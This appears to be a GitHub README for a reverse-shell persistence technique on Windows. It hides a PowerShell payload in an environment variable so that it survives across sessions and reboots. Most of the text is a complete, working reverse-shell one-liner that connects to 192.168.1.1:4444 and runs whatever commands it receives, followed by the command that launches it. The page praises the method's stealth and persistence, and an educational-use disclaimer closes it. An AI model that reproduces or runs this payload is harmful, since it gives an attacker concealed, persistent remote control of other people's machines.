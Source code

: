## Reverse Shell Persistence with Windows Environment Variables

## Overview

 This project demonstrates how to create a persistent reverse shell using Windows environment variables. By storing the reverse shell payload in an environment variable, you can stealthily execute it across multiple sessions.

## Usage
1. Set the Reverse Shell in the Environment Variable


``` bash
setx REV_SHELL "$client = New-Object Net.Sockets.TcpClient('192.168.1.1',4444); if ($client.Connected) { $stream = $client.GetStream(); [byte[]]$bytes = 0..65535|%{0}; while (($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0) { $data = ([Text.Encoding]::ASCII).GetString($bytes, 0, $i); $sendback = (iex $data 2>&1 | Out-String); $sendback2 = $sendback + 'PS ' + (pwd).Path + '> '; $sendbyte = ([Text.Encoding]::ASCII).GetBytes($sendback2); $stream.Write($sendbyte, 0, $sendbyte.Length); $stream.Flush() } $client.Close() }"```
```

2. Execute the Reverse Shell

``` bash
powershell.exe -Command "%REV_SHELL%"

```

Why Use This Method?
  
* Stealth: Hides the reverse shell in environment variables. <br>
*  Persistence: The shell remains across sessions and reboots. <br>
*  Convenience: Easy to execute when needed.

# POC 


![image](https://github.com/user-attachments/assets/9368c5ac-7819-448d-b454-f7968bf6f7f0)

![image](https://github.com/user-attachments/assets/8b5da887-152a-443d-a857-7985a0f78460)


## Disclaimer

This project is intended for educational purposes only. It demonstrates a reverse shell technique using Windows environment variables for cybersecurity professionals and ethical hackers to understand potential attack vectors. Do not use this method for illegal or unauthorized activities. Always obtain proper authorization before conducting any security testing.
